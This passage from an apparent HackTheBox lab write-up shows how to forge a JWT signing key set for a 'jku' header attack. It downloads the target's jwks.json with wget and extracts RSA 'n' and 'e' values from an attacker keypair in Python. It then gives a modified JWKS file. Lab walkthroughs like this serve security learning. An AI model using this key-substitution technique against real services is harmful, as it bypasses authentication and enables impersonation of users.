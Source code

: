 In order to create a valid jku certificate you can download the original one anche change the needed parameters.
```bash
wget http://hackmedia.htb/static/jwks.json
```

You can obtain the parametes "`e`" and "`n`" from a public certificate using python -
* There is a issue with formatting hacktricks shows this value in hex format but our target server using possibly base64 format. We can still get these values with python but with different module and different techniques.
```python
from jwcrypto import jwk
import json
with open("keypair.pem", "rb") as pemfile:
    key = jwk.JWK.from_pem(pemfile.read())
jwks = key.export_public()
print(json.loads(jwks)['n'])
print(json.loads(jwks)['e'])
```

![](/assets/img/posts/unicode/get-e-n.png)

Replace `e` and `n` value in orignal `jwks.json` with new values.
```json
{
    "keys": [
        {
            "kty": "RSA",
            "use": "sig",
            "kid": "hackthebox",
            "alg": "RS256",
            "n": "5VB6YkmCCvY7UTdKNh4jUSxySy8Kew9A_ZIb3zilwMzXOgg8gThoicyR9pQmpjKrNWYz3eBueDkkjc7gHaN7H97rbpZq01NxsKGxWGqgO7JVSjq0o_YLPBztGFZ-R0tqZ-wzObuL8ZDnbm0vWdgFtxSVNAGB8eL0S-t9wMY6ALz8KXbYyWarH1FJpgYFtzrYRE6oJQsPCfgCzWIkKEV-dUyAcn7B2sVKjceEsI1JoKonQU4X6RJmU8PHFcjFqix2_fWUhVhLjVcKDHDNECY-h3jfd-1j_m0Na1F5eP87s_hSLdJVkaIiI4v6lOpFR7BxbN-UN9aCo_PE8thW3TavSw",
            "e": "AQAB"
        }
    ]
}
```
